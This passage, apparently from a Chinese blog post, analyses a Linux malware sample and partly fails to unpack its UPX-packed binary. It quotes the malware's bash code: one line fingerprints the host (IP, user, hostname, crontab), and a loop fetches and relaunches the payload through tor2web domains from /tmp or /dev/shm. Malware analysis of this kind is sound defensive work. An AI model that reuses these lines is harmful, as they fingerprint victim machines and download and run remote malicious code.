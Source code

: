 函数 `u()` 是主要内容了，他生成了随机的文件名，通过 tor 代理，根据设备的架构下载了一个恶意文件`/int.$(uname -m)`，如`/int.x86_64`，然后执行这个恶意文件并且删除他。

```bash
$(curl -4fsSLk checkip.amazonaws.com||curl -4fsSLk ip.sb)_$(whoami)_$(uname -m)_$(uname -n)_$(ip a|grep 'inet '|awk {'print $2'}|md5sum|awk {'print $1'})_$(crontab -l|base
64 -w0)
```

这一行把设备的一些基本信息打包了一下，包括 ip地址、主机名、crontab内容。这里是 or 的关系，推测是如果执行失败那就上报设备信息。

```bash
for h in tor2web.in tor2web.it
do
if ! ls /proc/$(head -n 1 /tmp/.X11-unix/01)/status; then
fexe;u $t.$h
ls /proc/$(head -n 1 /tmp/.X11-unix/01)/status || (cd /tmp;u $t.$h)
ls /proc/$(head -n 1 /tmp/.X11-unix/01)/status || (cd /dev/shm;u $t.$h)
else
break
fi
done
```

程序执行流程就比较容易看懂，根据 pid 文件判断程序是否启动了，如果没启动，那么就启动程序。

# 二进制文件分析

这个二进制文件什么都过滤不出来，但是过滤出来了一个字符串：

```
PROT_EXEC|PROT_WRITE failed.
```

![](https://static.scuseek.com/20210712171324.png)

搜一下这个字符串，可以发现有人在 stackoverflow 提了这样一个[问题](https://unix.stackexchange.com/questions/419242/strange-linux-binary)，问题的内容里面有这个关键字

```
$strings exe_file
UPX!
.....
PROT_EXEC|PROT_WRITE failed.
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 3.91 Copyright (C) 1996-2013 the UPX Team. All Rights Reserved. $
```

看到了 upx 不禁眼前一亮，我之前就猜测这是 upx 加壳了，但是去除了 upx 的特征，导致过滤不出任何关键字来。

那么 `upx -d` 一把梭

![](https://static.scuseek.com/20210712171854.png)

非常棒，不能一键脱壳，那么我搞不动了 :)

找了些 upx 去特征的帖子，看了后我不想动手了，太多可以玩的地方了
